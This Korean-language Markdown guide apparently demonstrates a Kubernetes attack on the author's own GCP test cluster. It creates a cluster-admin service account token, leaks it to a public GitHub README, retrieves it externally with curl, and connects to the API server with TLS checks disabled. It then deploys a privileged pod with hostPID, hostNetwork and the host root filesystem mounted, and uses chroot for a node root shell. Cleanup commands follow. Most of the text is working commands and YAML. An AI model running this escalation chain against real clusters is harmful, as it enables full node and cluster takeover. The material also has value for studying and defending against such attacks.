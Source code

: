 ## Kubernetes 클러스터 최신 버전 침투 시나리오 (Privileged 컨테이너 이용)

이 문서는 Kubernetes 최신 버전 클러스터를 대상으로, 외부에서 인증 토큰 유출 → API 침투 → Privileged 컨테이너를 통한 노드 권한 획득까지의 과정을 단계별로 설명합니다.

---

## 1. 클러스터 환경

* **구성**: 마스터 1대, 워커 3대
* **버전**: 최신 Kubernetes

---

## 2. 사전 준비 (마스터 VM)

1. **서비스 어카운트 및 토큰 생성** (24시간 유효)

```bash
kubectl -n kube-system create sa demo-leak
kubectl create clusterrolebinding demo-leak \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:demo-leak

kubectl -n kube-system create token demo-leak --duration=24h > /tmp/leak.token
```

2. **API 서버 방화벽 오픈** (6443포트)

GCP 콘솔에서 설정:

* Name: `allow-demo-6443`
* Source IP: `<YOUR_IP>/32`
* Protocol/Port: `tcp:6443`

3. **토큰 확인**

```bash
cat /tmp/leak.token
```

---

## 3. 토큰 유출 시나리오 (GitHub)

```bash
cd ~/demo-leak
echo "## 토큰 유출 테스트" > README.md
cat /tmp/leak.token >> README.md
git add README.md
git commit -m "leak kube token"
git push origin main
```

---

## 4. 외부에서 침투

### 환경설정

```bash
brew install kubectl
TOKEN="$(curl -s https://raw.githubusercontent.com/<USER>/demo-leak/main/README.md | tail -1)"
API="https://34.64.60.22:6443"

kubectl --token "$TOKEN" --server "$API" --insecure-skip-tls-verify get ns
```

### 공격용 YAML 생성 및 배포

`privileged-shell.yaml` 생성:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: privileged-poc
---
apiVersion: v1
kind: Pod
metadata:
  name: privileged-shell
  namespace: privileged-poc
spec:
  hostPID: true
  hostNetwork: true
  containers:
    - name: attacker-shell
      image: alpine:latest
      securityContext:
        privileged: true
      command: ["/bin/sh", "-c", "sleep 3600"]
      volumeMounts:
        - name: host-root
          mountPath: /host
  volumes:
    - name: host-root
      hostPath:
        path: /
```

배포:

```bash
kubectl --token "$TOKEN" --server="$API" --insecure-skip-tls-verify apply -f privileged-shell.yaml
```

### 파드 접속 후 노드 권한 획득 증명

파드 접근:

```bash
kubectl --token "$TOKEN" --server="$API" --insecure-skip-tls-verify -n privileged-poc exec -it privileged-shell -- sh
```

노드 Shell 접근:

```bash
chroot /host /bin/bash

# 권한 증명
whoami
id
hostname
```

---

## 5. 정리

외부 PC에서 자원 삭제:

```bash
kubectl delete -f privileged-shell.yaml
kubectl delete ns privileged-poc
```

마스터에서 자원 삭제:

```bash
kubectl -n kube-system delete sa demo-leak
kubectl delete clusterrolebinding demo-leak
```

GCP 방화벽 규칙 삭제:

```bash
gcloud compute firewall-rules delete allow-demo-6443
```

